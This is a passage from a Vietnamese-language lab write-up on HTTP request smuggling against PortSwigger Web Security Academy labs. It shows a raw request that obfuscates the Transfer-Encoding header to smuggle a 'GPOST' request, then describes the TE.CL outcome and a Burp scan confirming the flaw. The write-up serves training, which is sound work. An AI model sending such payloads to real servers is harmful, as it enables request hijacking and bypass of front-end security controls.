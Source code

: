 với request

```http!
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

Lúc này ta quay về bài toán TE.CL

![image](https://hackmd.io/_uploads/Sk5RgSF6p.png)

![image](https://hackmd.io/_uploads/rJUJWBtaT.png)

và mục đích của chúng ta đã hoàn thành

![image](https://hackmd.io/_uploads/SJpSfBYpa.png)

### Burp scan

- mình quét lại bài lab với burp scan

![image](https://hackmd.io/_uploads/BkmEyrYTp.png)

và phát hiện lỗ hổng với 2 request
và giống như chúng ta đã khai thác ở request đầu gửi request với 2 http header `Transfer-Encoding: ` 1 cái hợp lệ 1 cái thì không hợp lệ và response trả kết quả 200 OK

![image](https://hackmd.io/_uploads/rkC9krYap.png)

và với request thứ 2 gửi như bình thường và nhận được response lỗi 504 do nó trả về response từ request POST gửi đến burp collabrator không thành công

![image](https://hackmd.io/_uploads/rJXpyrKaT.png)

![image](https://hackmd.io/_uploads/SyOJgrY6a.png)

## 4. Lab: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

link: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses
